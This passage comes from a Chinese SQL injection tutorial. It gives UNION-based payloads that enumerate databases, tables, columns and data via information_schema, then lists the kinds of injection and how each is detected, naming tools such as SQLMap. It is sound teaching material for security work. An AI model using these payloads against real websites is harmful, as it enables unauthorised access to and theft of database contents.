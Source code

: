 
      -  查看当前数据库名 
```sql
union select 1, (select database ())–+
```
 

      -  查看所有数据库名 
```sql
union select 1, (select group_concat (schema_name) from information_schema.schemata)–+
```
 

      -  查看某个数据库的所有表名 
```sql
union select 1, (select group_concat (table_name) from information_schema.tables where table_schema='数据库名')–+
```
 

      -  查看某个表的所有列名 
```sql
union select 1, (select group_concat (column_name) from information_schema.columns where table_name='表名')–+
```
 

      -  查看某个列的所有数据 
```sql
union select 1, (select group_concat (列名) from 表名)–+
```
 

## 五、SQL注入的类别

1. SQL注入的种类有以下几种： 
   - 联合注入：可以使用union的情况下的注入。
   - 布尔盲注：不能根据页面返回内容判断任何信息，只能根据条件真假来判断。
   - 报错注入：页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
   - 时间盲注：不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行来判断。
   - 堆叠注入：可以同时执行多条语句的执行时的注入。
   - 二次注入：在数据库中存储了用户的输入，再次执行时触发的注入。
   - 宽字节注入：利用字符编码的差异，绕过过滤的注入。
   - Cookie注入：利用Cookie中的参数进行注入

## 六、SQL注入常用的检测方法

1. SQL注入常用的检测方法有以下几种： 
   - 动态检测：通过向数据库发送特殊的SQL语句，观察数据库的响应，判断是否存在SQL注入漏洞。
   - 静态检测：通过分析程序源代码，找出可能存在SQL注入风险的语句，进行修复或优化。
   - 插入单、双引号：通过在参数中添加单引号或双引号，看是否出现数据库错误提示，判断是否有注入点。
   - 使用SQL注入检测工具：例如SQLMap、SQLNinja、Havij等，可以自动化地发现和利用SQL注入漏洞
